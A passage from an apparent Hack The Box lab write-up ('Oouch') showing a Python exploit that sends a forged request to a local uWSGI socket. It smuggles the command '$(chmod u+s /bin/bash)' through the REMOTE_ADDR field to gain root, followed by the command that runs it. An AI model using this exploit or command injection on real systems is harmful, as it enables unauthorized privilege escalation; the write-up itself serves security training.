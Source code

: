 ```python
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/tmp/uwsgi.socket")
    print(s)
    send_uwsgi_request(s, {
        'PATH_INFO': path,
        'HTTP_HOST': 'consumer.oouch.htb',
        'REQUEST_METHOD': 'POST',
        'HTTP_COOKIE': 'session=.eJy9kb9OAzEMxl8lzcJSIV_-p0-BYGCAqnIcpz1xvUNNKoaq706AEbEggRfbsn_6_MkXuSsT1gNXuXm6SNF6kkeuFfcs1_JuYqwspmUvxlm0RSBRH4p2GKt47Tu3cntdf-fueT_WdsI2LrN4OH9C5TytxCNPtBxZ1Hl5q4Tz6pf8jWD6Ldu4NvEsf8D_zHJa0n9L4jQSf4hu1_3PJ64HuSk4Ve7tmOVGGkiKoh4yhaJ7qKjAQ7A-MJG2jqwyBDbZHC0mg4N22igXSibkpDNYn4pz5CK5HpGyRQs2AKUSjbOANCQXQoy-AID3JRVIznkXiy3edBNUT2XXlhee-z3Bp6AGg8YMrNByr61JNiqdNAVUBBqGDLlz58qnLxODvL4Dkk_jDQ.XlvGhA.DK61IKezdy9GLX14VLDcSgPviD4',
        'QUERY_STRING': '',
        'CONTENT_LENGTH': 130,
        'REMOTE_ADDR': '$(chmod u+s /bin/bash)',
        'CONTENT_TYPE': 'application/x-www-form-urlencoded'
    }.items())
    dump_from_socket(s)
    s.close()

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument('--host', default='localhost')
    ap.add_argument('--port', type=int, default=9090)
    ap.add_argument('path')
    args = ap.parse_args()
    talk_to_uwsgi(host=args.host, port=args.port, path=args.path)


if __name__ == '__main__':
    main()
```

`qtc@aeb4525789d8:/tmp$ python /tmp/exploit.py /contact`

![](/assets/images/htb-writeup-oouch/Screenshot_39.png)

![](/assets/images/htb-writeup-oouch/Screenshot_40.png)